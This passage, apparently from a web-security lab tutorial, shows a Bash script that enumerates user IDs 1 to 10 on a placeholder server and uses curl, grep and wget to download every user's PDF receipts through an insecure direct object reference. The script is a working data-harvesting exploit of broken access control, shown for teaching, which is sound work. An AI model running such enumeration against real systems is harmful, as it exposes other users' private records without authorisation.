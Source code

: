 This command will output only the links of the PDF receipts.

#### Automating Receipt Retrieval

To automate the enumeration of receipts for multiple users, we can implement a Bash script that cycles through a predefined range of user IDs. The following script exemplifies this:

```bash
#!/bin/bash

base_url="http://SERVER_IP:PORT"

# Loop through user IDs 1 to 10
for id in {1..10}; do
    # Retrieve and download receipts for the current user
    for receipt in $(curl -s "$base_url/receipts.php?user_id=$id" | grep -oP "\/receipts.*?\.pdf"); do
        # Download each receipt silently
        wget -q "$base_url$receipt"
    done
done
```

***
